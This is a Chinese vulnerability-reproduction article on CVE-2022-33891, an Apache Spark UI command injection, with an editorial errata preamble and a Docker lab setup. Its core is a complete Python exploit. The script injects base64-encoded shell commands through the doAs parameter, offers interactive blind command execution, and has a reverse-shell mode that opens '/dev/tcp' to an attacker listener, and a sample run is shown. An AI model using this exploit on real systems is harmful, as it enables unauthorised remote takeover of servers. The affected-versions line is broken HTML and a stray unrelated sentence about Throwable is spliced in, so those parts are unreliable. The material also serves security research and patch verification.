# CVE-2022-33891 漏洞复现

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Apache Spark Web UI
- 文献类型：Spark配置相关命令执行复现
- 版本、权限及部署边界：必须spark.acls.enable=true并可达UI权限检查链；示例3.1.1与3.0.0，Unix shell执行
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 影响版本行含破损HTML且列>=3.3.0为受影响，需按官方修复分支重新核对，不能依据此表选安全版
2. 根因前提ACL启用应前置；关闭RPC认证等Docker变量不是同一必要条件，勿扩成默认所有Spark可打
3. 改容器内配置后docker-compose up-d不保证重启已有容器，需确认实际加载配置；环境图未视检
4. PoC仅403+字符串识别可能漏报，单次sleep10可能网络误报且无超时/基线；Base64是样例编码选择非必然漏洞条件
5. 末尾Throwable危险set方法属于其他反序列化内容，明显拼接污染
6. 修复仅下载主页无具体安全版本，保留官方security与环境链接，补实际请求/结果

### 操作风险

改容器内配置后docker-compose up-d不保证重启已有容器，需确认实际加载配置；环境图未视检

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/8Fs93lv4RaszAVNNpf8SCg>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://github.com/big-data-europe/docker-spark>
- 原文参考链接（未重新核验）：<https://spark.apache.org/security.html>
- 原文参考链接（未重新核验）：<https://spark.apache.org/downloads.html>
- 原文参考链接（未重新核验）：<http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652885477&idx=1&sn=39e97a60d7b68d19569284654e74ffa1&chksm=bd59ad288a2e243e4d89b7c456fbd44a93d241c881075b342af22431d93dca56e52076ed75ce&scene=21#wechat_redirect>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/8Fs93lv4RaszAVNNpf8SCg)

简介

Spark 是用于大规模数据处理的统一分析引擎。它提供了 Scala、Java、Python 和 R 中的高级 API，以及支持用于数据分析的通用计算图的优化引擎。它还支持一组丰富的高级工具，包括用于 SQL 和 DataFrames 的 Spark SQL、用于 Pandas 工作负载的 Spark 上的 Pandas API、用于机器学习的 MLlib、用于图形处理的 GraphX 和用于流处理的结构化流。

影响版本

Apache spark version<3.0.3

3.1.1<apache spark=""version<3.1.2<="" span="">

Apache Spark version>= 3.3.0

环境搭建

目前官网上已经找不到老版本的 docker 镜像了



搜索老版本的也是为空

这里环境搭建的时使用的是 github 上私人仓库的镜像，下载地址

https://github.com/big-data-europe/docker-spark

需要修改配置文件，下载存在漏洞的版本，修改 dockerfile,V3.1.1



修改版本

docker-compose up -d



访问

http:10.10.10.32:8080



这里测试是不存在漏洞的，需要修改配置文件

echo "spark.acls.enable true" >> conf/spark-defaults.conf

POC 如下：

```
#!/usr/bin/env python3
import requests
import argparse
import base64
import datetime


parser = argparse.ArgumentParser(description='CVE-2022-33891 Python POC Exploit Script')
parser.add_argument('-u', '--url', help='URL to exploit.', required=True)
parser.add_argument('-p', '--port', help='Exploit target\'s port.', required=True)
parser.add_argument('--revshell', default=False, action="store_true", help="Reverse Shell option.")
parser.add_argument('-lh', '--listeninghost', help='Your listening host IP address.')
parser.add_argument('-lp', '--listeningport', help='Your listening host port.')
parser.add_argument('--check', default=False, action="store_true", help="Checks if the target is exploitable with a sleep test")

args = parser.parse_args()

full_url = f"{args.url}:{args.port}"


def check_for_vuln(url):
    print("[*] Attempting to connect to site...")
    r = requests.get(f"{full_url}/?doAs='testing'", allow_redirects=False)
    if r.status_code != 403:
        print("[-] Does not look like an Apache Spark server.")
        quit(1)
    elif "org.apache.spark.ui" not in r.content.decode("utf-8"):
        print("[-] Does not look like an Apache Spark server.")
        quit(1)
    else:
        print("[*] Performing sleep test of 10 seconds...")
        t1 = datetime.datetime.now()
        run_cmd("sleep 10")
        t2 = datetime.datetime.now()
        delta = t2-t1
        if delta.seconds < 10:
            print("[-] Sleep was less than 10. This target is probably not vulnerable")
        else:
            print("[+] Sleep was 10 seconds! This target is probably vulnerable!")
        exit(0)


def cmd_prompt():
    # Provide user with cmd prompt on loop to run commands
    cmd = input("> ")
    return cmd


def base64_encode(cmd):
    message_bytes = cmd.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_cmd = base64_bytes.decode('ascii')
    return base64_cmd


def run_cmd(cmd):
    try:
        # Execute given command from cmd prompt
        #print("[*] Command is: " + cmd)
        base64_cmd = base64_encode(cmd)
        #print("[*] Base64 command is: " + base64_cmd)
        exploit = f"/?doAs=`echo {base64_cmd} | base64 -d | bash`"
        exploit_req = f"{full_url}{exploit}"
        print("[*] Full exploit request is: " + exploit_req)
        requests.get(exploit_req, allow_redirects=False)
    except Exception as e:
        print(str(e))


def revshell(lhost, lport):
    print(f"[*] Reverse shell mode.\n[*] Set up your listener by entering the following:\n nc -nvlp {lport}")
    input("[!] When your listener is set up, press enter!")
    rev_shell_cmd = f"sh -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    run_cmd(rev_shell_cmd)

def main():

    if args.check and args.revshell:
        print("[!] Please choose either revshell or check!")
        exit(1)

    elif args.check:
        check_for_vuln(full_url)

    # Revshell
    elif args.revshell:
        if not (args.listeninghost and args.listeningport):
            print("[x] You need a listeninghost and listening port!")
            exit(1)
        else:
            lhost = args.listeninghost
            lport = args.listeningport
            revshell(lhost, lport)
    else:
        # "Interactive" mode
        print("[*] \"Interactive\" mode!\n[!] Note: you will not receive any output from these commands. Try using something like ping or sleep to test for execution.")
        while True:
            command_to_run = cmd_prompt()
            run_cmd(command_to_run)


if __name__ == "__main__":
    main()
```

如果失败的话重建项目，使用下面这个文件起 docker 可能是镜像的问题，不同的仓库内的 Apache spark 配置不同，这个版本是 V3.0.0 的

```
version: '2'

services:

  spark:
    image: docker.io/bitnami/spark:3.0.0
    environment:
      - SPARK_MODE=master
      - SPARK_RPC_AUTHENTICATION_ENABLED=no
      - SPARK_RPC_ENCRYPTION_ENABLED=no
      - SPARK_LOCAL_STORAGE_ENCRYPTION_ENABLED=no
      - SPARK_SSL_ENABLED=no
    ports:
      - '8080:8080'
```



访问

http://192.168.0.112:8080/



修改配置文件

docker exec -it 8a /bin/bash

I have no name!@8a7873e77c46:/opt/bitnami/spark$ echo "spark.acls.enable true" >> conf/spark-defaults.conf

I have no name!@8a7873e77c46:/opt/bitnami/spark$ cat conf/spark-defaults.conf



已追加配置, 重启 docker

root@ubuntu:/home/ubuntu/Desktop/spark# docker-compose up -d



使用 poc 去生成 payload，或者手动也可，但是执行的命令要使用 echo 写入执行且做 base64 编码后解码生效。



但是看不到回显，直接反弹 shell

python 2.py -u http://192.168.0.112 -p 8080 --revshell -lh 192.168.0.121 -lp 4444



查看连接状态



漏洞成因

漏洞成因是由于 Apache Spark UI 提供了通过配置选项 spark.acls.enable 启用 ACL 的可能性。使用身份验证过滤器，这将检查用户是否具有查看或修改应用程序的访问权限。如果启用了 ACL，则 HttpSecurityFilter 中的代码路径可以允许某人通过提供任意用户名来执行模拟。然后，恶意用户可能能够访问权限检查功能，该功能最终将根据他们的输入构建一个 Unix shell 命令并执行，导致任意 shell 命令执行。

参考：https://spark.apache.org/security.html

修复建议

1. 建议升级到安全版本，参考官网链接：

https://spark.apache.org/downloads.html

2. 安全设备路径添加黑名单或者增加 WAF 规则 (临时方案)。

Throwable 的扩展类，同时其中必须有危险的 set 方法。

**原创稿件征集**

征集原创技术文章中，欢迎投递

投稿邮箱：edu@antvsion.com

文章类型：黑客极客技术、信息安全热点安全研究分析等安全相关

通过审核并发布能收获 200-800 元不等的稿酬。

[更多详情，点我查看！](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652885477&idx=1&sn=39e97a60d7b68d19569284654e74ffa1&chksm=bd59ad288a2e243e4d89b7c456fbd44a93d241c881075b342af22431d93dca56e52076ed75ce&scene=21#wechat_redirect)


靶场实操，戳 “阅读原文 “

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
